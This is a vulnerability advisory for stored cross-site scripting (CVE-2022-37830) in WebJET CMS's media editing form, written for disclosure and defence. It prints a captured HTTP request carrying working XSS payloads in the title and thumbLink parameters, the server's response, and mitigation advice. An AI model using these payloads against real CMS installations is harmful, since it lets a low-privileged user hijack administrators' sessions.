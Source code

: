 === Content from citadelo.com_c64be747_20250110_134933.html ===
Stored Cross-site Scripting (XSS) in WebJET CMS
prior to version 8.6.896

Short Description

Multiple cross-site scripting (XSS) vulnerabilities (CVE-2022-37830) in the form for editing the added
media in Interway a.s WebJET CMS prior to 8.6.896 version allow remote authenticated users to

inject arbitrary web script or HTML via the (1)  data[65][title]  , or (2)  data[65][thumbLink]
parameter.

CVSS:3.1 score = 9.0 (Critical)

Details

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to

compromise the interactions that users have with a vulnerable application. It allows an attacker to
circumvent the same origin policy, which is designed to segregate different websites from each other.

Cross-site scripting vulnerabilities normally allows an attacker to masquerade as a victim user, to carry
out any actions that the user is able to perform, and to access any of the user's data. If the victim user

has privileged access within the application, then the attacker might be able to gain full control over all
of the application's functionality and data.

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application
receives data from an untrusted source and includes that data within its later HTTP responses in an

unsafe way. Our discovered instance of this vulnerability can be found in the Content Management
System (CMS) Webjet in the Media tab, which is accessible by clicking on one of the websites that

can be added using this CMS. Using this vulnerability, a lower privileged role (content manager),
which can only add web pages, can attack the administrator of the entire CMS system.

In the screenshot below you can see the form for editing the added media, where there are two
parameters that are not sufficiently validated and where you can insert JavaScript code, which is then

executed in the browser of the user who visits the page after saving the record and displaying the
media list.

This is what the request looks like that is sent to the server when the save button is pressed:

POST /admin/rest/datatables/sk.iway.spirit.MediaDataController/save HTTP/1.1

Host: test.<redacted>.cz

Cookie: <redacted>

User-Agent: <redacted>

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: https://test.<redacted>.cz/admin/webpages/

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 360

Origin: https://test.<redacted>.cz

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin

X-Pwnfox-Color: magenta

Te: trailers

Connection: close

action=edit&data%5B65%5D%5Bid%5D=65&data%5B65%5D%5BmediaFkId%5D=2258&data%5B65%5D%

5Bgroups%5D=&data%5B65%5D%5Blink_url%5D=%2Ffiles%2Fcz%2Fportal%2Fnews%2Flist-news-

cz%2Fnova-web-

stranka%2Fwebshell.jsp&data%5B65%5D%5Btitle%5D=3Cimg+src%3Dx+onerror%3Dalert(2)%3E

&data%5B65%5D%5BthumbLink%5D=x%22+onerror%3Dalert(document.domain)%3E%22&data%5B65

%5D%5Border%5D=20

Response:

HTTP/1.1 200

X-Frame-Options: SAMEORIGIN

X-XSS-Protection: 1; mode=block

Server: unknown

Strict-Transport-Security: max-age=15768000 ; includeSubDomains

X-Content-Type-Options: nosniff

Content-Security-Policy: <redacted>

Referrer-Policy: same-origin

Cache-Control: no-cache, no-store, max-age=0, must-revalidate

Pragma: no-cache

Expires: 0

Content-Type: application/json;charset=UTF-8

Content-Language: sk-SK

Date: Mon, 25 Jul 2022 12:48:32 GMT

Connection: close

Access-Control-Allow-Origin: <redacted>

Content-Length: 323

{"data":[{"id":65,"order":20,"title":"<img src=x

onerror=alert(2)>","thumbLink":"x\"

onerror=alert(document.domain)>\"","group":"","groupsArray":"","link_url":"/files/

cz/portal/news/list-news-cz/nova-web-

stranka/webshell.jsp","link_exist":"false"}],"options":null,"files":null,"upload":

null,"fieldErrors":null,"error":null}

Proof of concept (screenshot below), when the page is displayed, the JavaScript code is executed:

Mitigation

Implement proper input sanitization filters for all inputs and outputs. A unified validation layer is

preferred. We recommend to use existing verified framework solutions.
We recommend to validate all user inputs and outputs to the potential dangerous character including

< > " ' ; ( ) & /  and encode them into HTML entities (in case of JS use HEX encoding). If it is
possible implement white listing i.e. using regular expressions.

Encoding potential dangerous characters into the HTML entities:

& --> &amp;

< --> &lt;

> --> &gt;

" --> &quot;

' --> &#x27;

/ --> &#x2F;

; --> &#x3B;

( --> &#x28;

) --> &#x29;

More info how to prevent XSS attacks can be read here:
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html.


